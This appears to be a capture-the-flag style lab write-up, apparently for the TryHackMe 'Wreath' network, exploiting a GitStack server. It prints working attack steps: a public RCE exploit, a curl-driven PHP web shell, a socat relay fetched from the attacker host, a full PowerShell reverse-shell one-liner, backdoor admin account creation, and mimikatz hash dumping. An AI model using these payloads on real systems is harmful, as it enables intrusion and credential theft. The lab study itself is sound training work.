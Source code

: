 # git server exploitation

going to http://10.200.187.150 brings a 404 error, but trying out some of the links on the error page directs us to login page

![](../APPENDIX/screenshot_gitserver.png)

![](../APPENDIX/screenshot_gitserver_login.png)

Default credentials did not work, searched for exploits on searchsploit.

Used the command `searchsploit gitstack` to search for exploits related to gitstack.

![](../APPENDIX/searchsploit.png)

Made copy of exploit into local directory:

```bash
mv 43777.py Desktop/thm/wreath
```

Convert from DOS to Unix:

```bash
dos2unix 43777.py
```

Added `#!/usr/env/python2` at the top of the script. Edited values in 43777.py to match target details, such as target IP. Command was left as `whoami`.

Ran Python script:

```bash
./43777.py
```

![](../APPENDIX/python_script_executed.png)

Note that the `whoami` command returned `nt authority\system`, meaning we have root access to the machine.

Using curl to interact with PHP shell:

```bash
curl -X POST http://10.200.187.150/web/exploit.php -d "a=whoami"
```

![](../APPENDIX/curl.png)

We get `nt authority\system` again.


Using burpsuite to do the same thing:

![](../APPENDIX/burpsuite.png)

Got details such as user running gitserver, hostname, etc.

**Using socat to perform lateral movement:**

Transfering socat from AttackBox to GitServer:

On Kali, in a directory with the `socat` binary:
```bash
python3 -m http.server 8081
```

On WebServer:

```bash
curl 10.50.184.50:8081/socat -o socat-fyr
firewall-cmd --zone=public --add-port 15555/tcp
chmod +x socat-fyr
```

Back on Kali:

```bash
sudo nc -nvlp 443

```

On WebServer:

```bash
./socat-fyr tcp-l:15555 tcp:10.50.187.50:443 &
```

Used Burp tp send a reverse shell:

Insert this command into "a" parameter:

```powershell
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('100.200.187.200',15555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

![](../APPENDIX/burp_ps_reverse_shell.png)

Did `CTRL + U` for URL encoding:

![](../APPENDIX/burp_ps_reverse_shell_url_encoded.png)

Sent request, obtained shell from Kali:

![](../APPENDIX/gitserver_revshell.png)

Added new privileged user in Administrator and Remote Management User groups:

![](../APPENDIX/ps_new_user.png)

Used `evil-winrm` to remotely access .150 from Kali:

![](../APPENDIX/evil-winrm.png)

Used `xfreerdp` to do something similar:

![](../APPENDIX/rdp.png)

(I made a new account called fyrw)

Made a new `xfreerdp` session with following parameters:

```bash
xfreerdp /u:fyrw /p:'Password1!' /v:10.200.187.150 /dynamic-resolution +clipboard /drive:/usr/share/windows-resources,fyr-share
```

This added a file share connecting Kali to .150 called "fyr-share", which is linked to `/usr/share/windows-resources`. It has mimikatz.

![](../APPENDIX/file_share.png)

Ran PS as admin, executed mimikatz.exe from file share:

![](../APPENDIX/mimikatz.png)

Used privilege escalation methods to gain SYSTEM integrity, then dumped hashes using `lsa::dump`:

![](../APPENDIX/mimikatz_lsadump.png)

The entire log can be viewed under APPENDIX/mimikatz-fyr.log.

User called "Thomas" hash cracked:

![](../APPENDIX/crackstation.png)

Used `evil-winrm` again to login as Administrator:

![](../APPENDIX/evil-winrm_admin.png)

